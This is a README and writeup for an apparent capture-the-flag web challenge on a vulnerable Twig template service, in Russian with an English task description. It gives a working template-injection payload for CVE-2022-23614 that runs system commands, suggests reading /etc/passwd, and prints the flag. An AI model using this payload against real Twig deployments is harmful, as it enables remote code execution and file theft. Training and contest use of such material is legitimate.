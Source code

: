 # Secure templates
 Web task for [M*CTF]() Finals 

**Описание задания:**

Мне нравится обработчик флаблонов Twig. Возможно он не самый безопасный 

https://ip:1337

**English**

I prefer Twig template engine. Maybe it's not secure enough

https://ip:1337

## Build 
```bash
cd mctf-final-secure-templates
./build.sh
```
## Start
In Browser: localhost:1337

## Writeup 

После поиска уязвимостей обработчика шаблонов twig, можно наткнуться на [эту](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23614). После этого найти PoC репозиторий на [Github](https://github.com/davwwwx/CVE-2022-23614), который ~~украден~~ взят за основу этого задания. В поле задания можно выполнить производный код, введя следующее выражение:
```bash
{{ ['id','']|sort('system') }}
```
Где id - станадрная Unix команда для вывода имени пользователя и его группы. Удаленный код выполнится и будет выведено:

![image](https://user-images.githubusercontent.com/77790965/189837506-f1373715-5d34-4dec-b8fd-0efe6bc074fc.png)


Удаленный код выполнен, а значит можно попробовать что-то ещё, например почитать системные файлы. Флаг будет находиться в файле /etc/passwd.

![image](https://user-images.githubusercontent.com/77790965/189839569-d74df404-42ea-4877-9b15-3b99211151da.png)

## Flag
```
mctf{tW1g_C0dE_Ex3c}
```
